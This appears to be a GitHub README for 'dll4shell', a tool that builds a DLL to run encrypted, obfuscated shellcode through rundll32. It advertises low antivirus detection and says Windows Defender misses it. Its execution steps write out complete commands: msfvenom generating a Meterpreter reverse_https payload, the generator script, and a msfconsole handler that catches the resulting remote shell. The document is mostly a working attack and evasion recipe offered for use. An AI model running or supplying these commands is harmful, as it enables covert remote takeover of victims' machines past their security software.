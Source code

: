 ### C++ shellcode launcher

Dll generator designed to run the shellcode via rundll32. Based on the "charlotte" tool and research mentioned in external references. Current features include:

* Using classic chain VirtualAlloc - CreateThread to execute the code in rundll32 process.
* Shellcode XOR and Cezar / Shift encryption.
* Simple python script to do the magic.
* Random names of functions and params for obfuscation.

As of now, the dll created with meterpreter code is detected by 5 / 65 vendors. Although VirusTotal suggests Defender detects the payload, on the real machines it does not.

![](dll4shell.png)

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)